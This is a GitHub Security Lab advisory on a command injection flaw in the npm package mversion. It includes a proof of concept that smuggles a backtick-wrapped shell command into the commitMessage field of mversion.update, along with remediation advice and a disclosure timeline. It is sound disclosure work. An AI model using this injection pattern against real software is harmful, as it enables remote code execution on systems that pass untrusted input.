 <header class="post-header d-block mb-6">
      <div class="date text-mono f5 my-3">June 24, 2020</div>
      <h1 class="my-2 h00-mktg lh-condensed">GHSL-2020-110: Command Injection in mversion</h1>

      
      
      
      
      

      

      <a target="_blank" class="sc-frDJqD SgxRc d-inline-flex flex-row flex-items-center text-gray" href="https://github.com/kevinbackhouse">
        <img class="mr-3" src="https://avatars.githubusercontent.com/u/4358136?s=35" height="35" width="35">
        <span>Kevin Backhouse</span>
      </a>
    </header>

    <main id="content" class="markdown-body" aria-label="Content">
      <h2 id="summary">Summary</h2>

<p>The <code class="language-plaintext highlighter-rouge">mversion.update</code> function has a command injection vulnerability. Clients of the mversion library are unlikely to be aware of this, so they might unwittingly write code that contains a vulnerability.</p>

<h2 id="product">Product</h2>
<p>mversion</p>

<h2 id="tested-version">Tested Version</h2>
<p>Commit <a href="https://github.com/mikaelbr/mversion/tree/765fbb8b03e37be1e02a6733410c22f1e2c7940e">765fbb8</a></p>

<h2 id="details-command-injection-in-mversionupdate">Details: Command injection in <code class="language-plaintext highlighter-rouge">mversion.update</code></h2>

<p>The following proof-of-concept illustrates the vulnerability. First install mversion and create an empty git repo to run the PoC in:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>npm install mversion
git init
</code></pre></div></div>

<p>Now create a file with the following contents:</p>

<div class="language-js highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="kd">var</span> <span class="nx">mversion</span> <span class="o">=</span> <span class="nx">require</span><span class="p">(</span><span class="dl">'</span><span class="s1">mversion</span><span class="dl">'</span><span class="p">);</span>
<span class="kd">var</span> <span class="nx">fs</span> <span class="o">=</span> <span class="nx">require</span><span class="p">(</span><span class="dl">"</span><span class="s2">fs</span><span class="dl">"</span><span class="p">);</span>

<span class="c1">// setting up a bit of environment</span>
<span class="nx">fs</span><span class="p">.</span><span class="nx">writeFileSync</span><span class="p">(</span><span class="dl">"</span><span class="s2">package.json</span><span class="dl">"</span><span class="p">,</span> <span class="dl">'</span><span class="s1">{"name": "foo", "version": "1.0.0"}</span><span class="dl">'</span><span class="p">);</span>

<span class="nx">mversion</span><span class="p">.</span><span class="nx">update</span><span class="p">({</span>
    <span class="na">version</span><span class="p">:</span> <span class="dl">'</span><span class="s1">major</span><span class="dl">'</span><span class="p">,</span>
    <span class="na">commitMessage</span><span class="p">:</span> <span class="dl">'</span><span class="s1">Some commit message for version %s `touch exploit`</span><span class="dl">'</span><span class="p">,</span>
    <span class="na">noPrefix</span><span class="p">:</span> <span class="kc">true</span>
  <span class="p">},</span> <span class="kd">function</span> <span class="p">(</span><span class="nx">err</span><span class="p">,</span> <span class="nx">data</span><span class="p">)</span> <span class="p">{</span> <span class="p">})</span> 
</code></pre></div></div>

<p>and run it:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>node test.js
</code></pre></div></div>

<p>Notice that a file named <code class="language-plaintext highlighter-rouge">exploit</code> has been created.</p>

<p>This vulnerability is similar to command injection vulnerabilities that have been found in other Javascript libraries. Here are some examples:
<a href="https://github.com/advisories/GHSA-m8xj-5v73-3hh8">CVE-2020-7646</a>,
<a href="https://github.com/advisories/GHSA-426h-24vj-qwxf">CVE-2020-7614</a>,
<a href="https://github.com/advisories/GHSA-5q88-cjfq-g2mh">CVE-2020-7597</a>,
<a href="https://github.com/advisories/GHSA-4gp3-p7ph-x2jr">CVE-2019-10778</a>,
<a href="https://github.com/advisories/GHSA-84cm-v6jp-gjmr">CVE-2019-10776</a>,
<a href="https://github.com/advisories/GHSA-9jm3-5835-537m">CVE-2018-16462</a>,
<a href="https://github.com/advisories/GHSA-7g2w-6r25-2j7p">CVE-2018-16461</a>,
<a href="https://github.com/advisories/GHSA-cfhg-9x44-78h2">CVE-2018-16460</a>,
<a href="https://github.com/advisories/GHSA-pp57-mqmh-44h7">CVE-2018-13797</a>,
<a href="https://github.com/advisories/GHSA-c9j3-wqph-5xx9">CVE-2018-3786</a>,
<a href="https://github.com/advisories/GHSA-wjr4-2jgw-hmv8">CVE-2018-3772</a>,
<a href="https://github.com/advisories/GHSA-3pxp-6963-46r9">CVE-2018-3746</a>,
<a href="https://github.com/advisories/GHSA-jcw8-r9xm-32c6">CVE-2017-16100</a>,
<a href="https://github.com/advisories/GHSA-qh2h-chj9-jffq">CVE-2017-16042</a>.</p>

<p>We have written a <a href="https://codeql.com">CodeQL</a> query, which automatically detects this vulnerability. You can see the results of the query on the <code class="language-plaintext highlighter-rouge">mversion</code> project <a href="https://lgtm.com/query/2059233003618484586/">here</a>.</p>

<h3 id="impact">Impact</h3>

<p>This issue may lead to remote code execution if a client of the library calls the vulnerable method with untrusted input.</p>

<h3 id="remediation">Remediation</h3>

<p>We recommend not using an API that can interpret a string as a shell command. For example, use <a href="https://nodejs.org/api/child_process.html#child_process_child_process_execfile_file_args_options_callback"><code class="language-plaintext highlighter-rouge">child_process.execFile</code></a> instead of <a href="https://nodejs.org/api/child_process.html#child_process_child_process_exec_command_options_callback"><code class="language-plaintext highlighter-rouge">child_process.exec</code></a>.</p>

<h2 id="coordinated-disclosure-timeline">Coordinated disclosure timeline</h2>

<p>2020-05-19: Emailed report to mikaelbre@gmail.com
2020-06-15: Created an <a href="https://github.com/mikaelbr/mversion/issues/55">issue</a> on their repo.
2020-06-15: They <a href="https://github.com/mikaelbr/mversion/commit/6c76c9efd27c7ff5a5c6f187e8b7a435c4722338">fixed</a> it in v2.0.0.</p>

<h2 id="credit">Credit</h2>

<p>This issue was discovered and reported by GitHub Engineer <a href="https://github.com/erik-krogh">@erik-krogh (Erik Krogh Kristensen)</a>.</p>

<h2 id="contact">Contact</h2>

<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include <code class="language-plaintext highlighter-rouge">GHSL-2020-110</code> in any communication regarding this issue.</p>

    